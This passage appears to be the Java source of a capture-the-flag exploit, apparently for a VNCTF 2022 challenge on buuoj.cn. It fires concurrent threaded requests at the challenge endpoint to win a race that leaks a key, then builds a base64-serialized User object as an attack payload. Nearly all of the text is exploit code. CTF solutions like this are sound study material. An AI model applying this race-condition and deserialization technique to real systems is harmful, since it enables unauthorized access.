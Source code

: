 ```java
    public static void main(String[] args) throws Exception {
        Exp exp = new Exp();
        String ctfKey = exp.getCTFKey();
        User user = new User("m4n_q1u_666", "666", "180");
        String base64 = JavaClassByteUtil.object2Base64Str(user);
        System.out.println("构造攻击payload: key=" + ctfKey + "&" + "base64=" + base64);
    }

    private volatile boolean notFoundKey = true;
    private volatile String key = null;
    private String getCTFKey() throws InterruptedException {
        String URL = "http://89461698-857c-47bb-b7f2-2fd27788ff61.node5.buuoj.cn:81/evi1";
        String PAYLOAD1 = "?name=vnctf2022";
        String PAYLOAD2 = "?name=erosion2020";
        int THREAD_COUNT = 6; // 3个线程用于 payload1，3个线程用于 payload2
        ExecutorService executorService = Executors.newFixedThreadPool(THREAD_COUNT);
        CountDownLatch latch = new CountDownLatch(THREAD_COUNT);
        for (int i = 0; i < 3; i++) {
            executorService.submit(() -> getCTFKey(URL + PAYLOAD1));
        }
        for (int i = 0; i < 3; i++) {
            executorService.submit(() -> getCTFKey(URL + PAYLOAD2));
        }
        latch.await();
        executorService.shutdown();
        return key;
    }
    private void getCTFKey(String fullUrl){
        try {
            while (notFoundKey) {
                URL url = new URL(fullUrl);
                HttpURLConnection conn = (HttpURLConnection) url.openConnection();
                conn.setRequestMethod("GET");

                int responseCode = conn.getResponseCode();
                BufferedReader in = new BufferedReader(new InputStreamReader(conn.getInputStream()));
                String inputLine;
                StringBuilder response = new StringBuilder();

                while ((inputLine = in.readLine()) != null) {
                    response.append(inputLine);
                }
                in.close();
                // 检查是否包含关键字 "key"
                if (response.toString().contains("Key")) {
                    System.out.println("Found key: " + response);
                    // 使用正则表达式匹配 key 内容
                    Pattern pattern = Pattern.compile("The Key is (.+)");
                    Matcher matcher = pattern.matcher(response);
                    if (matcher.find()) {
                        notFoundKey = false;
                        key = matcher.group(1); // 提取出括号中的内容;
                        System.out.println("提取Key: " + key);
                        return;
                    }
                }
                // 休眠100毫秒，类似于 Python 的 time.sleep(0.1)
                Thread.sleep(100);
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
```